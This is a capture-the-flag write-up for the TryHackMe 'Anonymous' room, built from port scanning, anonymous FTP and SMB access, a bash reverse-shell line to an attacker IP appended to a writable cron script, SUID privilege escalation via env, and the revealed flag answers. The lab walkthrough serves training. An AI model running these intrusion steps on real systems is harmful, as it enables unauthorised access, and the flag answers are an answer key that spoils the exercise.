 ![Anonymous Banner](https://i.imgur.com/KHhJB15.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/anonymous_Cover.png" alt="Anonymous">
</p>

# [Anonymous](https://github.com/Kevinovitz/TryHackMe_Writeups/tree/main/anonymous)

In [this](https://tryhackme.com/room/anonymous) room we use our basic Linux and PrivEsc knowledge to gain access to our machine and get root permissions.

More details [here](https://stawm.design.blog/2020/05/21/anonymous-thm-writeup/).

## Pwn

This guide contains the answer and steps necessary to get to them for the [Anonymous](https://tryhackme.com/room/) room. This room is similar to some other room, but I can't remember the name at the moment.

1. Enumerate the machine.  How many ports are open?

   We first scan the machine for any open ports with the following command:
   
   ```cmd
   nmap -sV 10.10.147.121
   ```
   
   ![Nmap Scan](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Nmap_Scan.png)

   ><details><summary>Click for answer</summary>4</details>

2. What service is running on port 21?

   This answer can be found in the previous image.

   ><details><summary>Click for answer</summary>ftp</details>

3. What service is running on ports 139 and 445?

   Both these answers can be seen in the previous image above.

   ><details><summary>Click for answer</summary>smb</details>

4. There's a share on the user's computer.  What's it called?

   We can use smbclient to identify the shares available on the target machine.
   
   ```cmd
   smbclient -NL //10.10.11.32
   ```
   
   ![Smb Shares](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Smb_Shares.png)
      
   To view the contents of this share we can use:
   
   ```cmd
   smbclient -N //10.10.11.32/pics
   ```
   
   ![Smb Share](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Nmap_Smb.png)

   After going through these files, it appears they are just images of some dogs, which have no further use.
   
   ![SMB Files](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Nmap_Smb_Files.png)
   
   ![Images](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Dogs.png)

   ><details><summary>Click for answer</summary>pics</details>

5. user.txt

   From the nmap scan we found we could connect to the machine through anonymous ftp.
   
   ```cmd
   ftp 10.10.75.132
   ```
   
   ![FTP Log In](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Ftp_Log_In.png)
   
   Looking through the files we see three files in a scripts folder which may be of interest.
   
   ![FTP Files](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Ftp_Files.png)
   
   We can download them all to our machine to investigate with `mget *`.
   
   ![FTP Download Files](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Ftp_Download.png)
   
   Looks like the `clean.sh` file is a script that runs periodically to remove some files. This gets stored in the log file. We also note that we have write access to this script. 
   
   ![Removed Files Log](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Removed_Files_Log.png)
   
   Lets find a command for a reverse shell we can add to this files. We can use [pentestmonkeys](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for this.
   
   ![Reverse Shell Command](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Reverse_Shell_Command.png)
   
   We can now append this to the script we downloaded.
   
   ```cmd
   bash -i >& /dev/tcp/10.18.78.136/1337 0>&1
   ```
   
   ![Finished Script](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Finished_Script.png)
   
   Now all we have to do, is upload the file to the server. Set up a listener and wait for the script to run.
   
   ```cmd
   put clean.sh
   ```
   
   ![FTP Upload](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Ftp_Upload.png)
   
   We can check if the command was added using:
   
   ```cmd
   curl ftp://10.10.75.132/scripts/clean.sh
   ```
   
   ![Check Script](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Check_Script.png)
   
   Now we setup the listener and wait for the incoming connection to be made.
   
   ```cmd
   nc -nlvp 1337
   ```
   
   ![Reverse Shell](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Nmap_Reverse_Shell.png)
   
   Now it is time to navigate to the flag and read its contents.
   
   ![User Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Nmap_User.png)

   ><details><summary>Click for answer</summary>90d6f992585815ff991e68748c414740</details>

6. root.txt

   In order for us to gain root on this machine we can look for any binaries which have their SUID bit set. 
   
   ```cmd
   find / -perm -4000 2>/dev/null
   ```
   
   ![Shell SUID](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Shel_SUID.png)
   
   We can use GTFOBins to look for any binaries which don't need sudo or a password. From this list we can use `/usr/bin/env`.
   
   ![GTFO](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_GTFO.png)
   
   Now we can use this command to get root access on the machine.
   
   ```cmd
   /usr/bin/env bin/bash -p
   ```
   
   ![Root](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Root.png)
   
   After a quick check to verify we are indeed root, we can look at the contents of `root.txt`.
   
   ![Root Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Root_Flag.png)

   ><details><summary>Click for answer</summary>4d930091c31a622a7ed10f27999af363</details>
